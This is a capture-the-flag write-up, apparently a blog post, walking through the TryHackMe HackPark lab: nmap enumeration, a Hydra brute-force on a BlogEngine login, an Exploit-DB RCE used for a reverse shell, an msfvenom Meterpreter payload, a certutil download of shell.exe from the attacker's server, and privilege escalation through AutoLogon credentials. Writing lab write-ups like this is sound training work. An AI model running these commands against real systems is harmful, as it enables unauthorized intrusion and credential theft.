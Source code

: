 ```yaml
---
layout: blog.html
title: "TryHackMe - HackPark Writeup"
date: 2021-11-02
---
```


[HackPark](https://tryhackme.com/room/hackpark) is a Medium difficulty room, although it guides you along fairly well for the initial foothold, and it's pretty easy to root if you do proper basic enumeration.
<!-- more -->

## Initial Enumeration
The first step in any pentest situation is enumeration. It's important to get as much information about the machine and its users as possible. To start off, we'll use Nmap to perform a port scan and see what services are active and listening on the box. Nmap is a versitle tool, and many people have their own preferred methods to balance speed and accuracy, but here are the options I'll use.

- `-sC`: Run default scripts. Nmap can do additional enumeration beyond just checking for open ports, and this option will run some quick and useful extra scans to give us even more information about what we're working with.
- `-sV`: Run version detection. Knowing what specific version of a service is in use can help with finding potential vulnerabilities, or ruling them out.
- `-v`: Be verbose. This outputs extra information to the console as the scan runs, the most useful of which are status updates and showing open ports as it finds them.
- `-oN`: Output to a file in the Nmap format. Having a file to refer back to intead of having to scroll through console output is very useful. Nmap can save to a variety of file formats, and you may have reasons to use them, but for me just the normal plain-text format is enough.
- `-Pn`: Don't use `ping` for host detection. This machine doesn't respond to ping, so to get Nmap to scan it at all, we need to use this option.

Using these options, we're left with the following command:
```bash
nmap -sC -sV -vv -Pn -oN nmap-initial.txt 10.10.97.88
```

This machine is surprising quiet considering it's a Windows machine. We get two open ports: 80 and 3389. Nmap detects port 80 running Microsoft IIS and 3389 hosting Remote Desktop.

Investigating the web server on port 80, we find a simple blog with a single post. A little bit of poking around reveals that the site is powered by ASPX, which is pretty common for an IIS server. The site seems to be powered by [BlogEngine.NET](https://blogengine.io/).

## Brute Force
There's a login form accessible from the site's main menu, so we'll try a brute force attack against that to see if the password happens to be vulnerable. Usernames are revealed by BlogEngine through a feature that lets you see all posts by a specific user. The username appears to be "Admin", which would have been an easily guessable username anyway.

We'll use [Hydra](https://github.com/vanhauser-thc/thc-hydra) for our brute force attack. There's a lot of junk we need to tack onto the requests we send to the form, but the main points to note are that `ctl00%24MainContent%24LoginUser%24UserName` is the username field and `ctl00%24MainContent%24LoginUser%24Password` is the password field. We know the password was wrong if we get a "Login failed" message, so we'll tell Hydra to look for that string.

```bash
hydra -l Admin -P /usr/share/wordlists/rockyou.txt 10.10.97.88 http-post-form '/Account/login.aspx?ReturnURL=/admin/:__VIEWSTATE=E2OPdwooQYKBe3hHmFyHa%2Bf42FNOA%2B0i3IfPFd2E6QX4ZFLFHeNhaurK%2BkcrI5TnLLXMiFxKO8IoF2PNUe4yxUE00Ypa1Fw9vUIoNSabbCRy2tPdaEfUccXF3nsmyHtUxFdrxb6w%2FLJ5tv5p5Uo5e4FqjE6fJOA3%2FYKOPDlZ9V38FMGP&__EVENTVALIDATION=x4B7wKhqtjq9qtvOm0hyFmAk48Vm4da4a79DWyJ1XRt6%2BGfR%2BQEE2Pfw9lQ7O0mrmbTenxGMb8si9MEfKGEXDxVPHW99J1XBzWlK7G5Hl11sx5J9sWQwIwtNAFx8skqv9lVGaynV%2BGp5CV81h3etCvc60o8Yu0m5nCeTk2o5BNZTNaEx&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed'
```

Hydra sucessfully finds the password for us, giving us access to the site's admin panel.

## Remote Code Execution
The "About" section gives us a version number of 3.3.6.0. Conveniently, there happens to be [a useful vulnerability with an exploit available on Exploit-DB](https://www.exploit-db.com/exploits/46353). The author was kind enough to give fairly detailed instructions within the script.

Following the instructions in the exploit, we'll set our attacking machine's IP in the script and use BlogEngine's post editor to upload it as `PostView.ascx`. Then we'll leverage a path traversal vulnerability to get BlogEngine to execute our code and give us a reverse shell. We land as a lowly IIS worker user.

This particular Windows reverse shell really sucks and is supposedly unstable, so upgrading to something a bit more attacker-friendly would be nice. We'll throw together an MSFVenom payload to give us a nice Meterpreter shell.

```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.13.14.52 LPORT=9001 -f exe > shell.exe
```

Unfortunately, getting PowerShell to work through this garbage shell is more work than I care to put in, so we'll try out the Certutil method for downloading our file to the target machine ([Thanks, HackTricks](https://book.hacktricks.xyz/windows/basic-cmd-for-pentesters#download)).

```
certutil.exe -urlcache -split -f "http://10.13.14.52:8000/shell.exe" shell.exe
```

## Privilege Escalation
To give us a good starting point, we'll try running WinPEAS on the machine and see what it can find for us. A handful of interesting results come back.

```
    Some AutoLogon credentials were found
    DefaultUserName               :  administrator
    DefaultPassword               :  *************
```

```
    AWSLiteAgent(Amazon Inc. - AWS Lite Guest Agent)[C:\Program Files\Amazon\XenTools\LiteAgent.exe] - Auto - Running - No quotes and Space detected
    AWS Lite Guest Agent
   =================================================================================================
```

```
    WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
    File Permissions: Everyone [WriteData/CreateFiles]
    Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
    System Scheduler Service Wrapper
   =================================================================================================
```

The unquoted service path lands in a folder we probably don't have access to, so it's unlikely that we'll be able to take advantage of that. The DLL hijack is promising, but will also take a bit of legwork to set up. The AutoLogon credentials are the most baindead easy possibility of getting access, so we'll try those first. 

![Order 66](https://i.snap.as/3mipsa0t.png)

Surprisingly, it just works, and we end up with an admin RDP session. From there we're able to grab both of the flags without issue.

The intended method is using write access to the SystemScheduler folder to overwrite an executable and get a second reverse shell (technically an EXE hijack as opposed to a DLL hijack), but the RDP method is just so much more painless.